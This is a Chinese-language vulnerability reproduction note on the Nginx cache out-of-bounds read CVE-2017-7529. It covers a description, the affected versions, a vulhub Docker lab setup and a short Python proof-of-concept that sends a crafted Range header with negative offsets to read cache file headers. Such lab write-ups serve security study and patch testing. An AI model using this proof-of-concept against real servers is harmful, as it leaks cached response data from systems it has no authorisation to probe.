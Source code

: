 # 

# Nginx越界读取缓存漏洞 CVE-2017-7529

## 漏洞描述

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 漏洞影响

```
Nginx version 0.5.6 - 1.13.2
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080 正常即可

![](./images/202206011714686.png)

## 漏洞复现

使用目录下的POC进行验证

```plain
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![](./images/202206011713645.png)

## 漏洞POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```
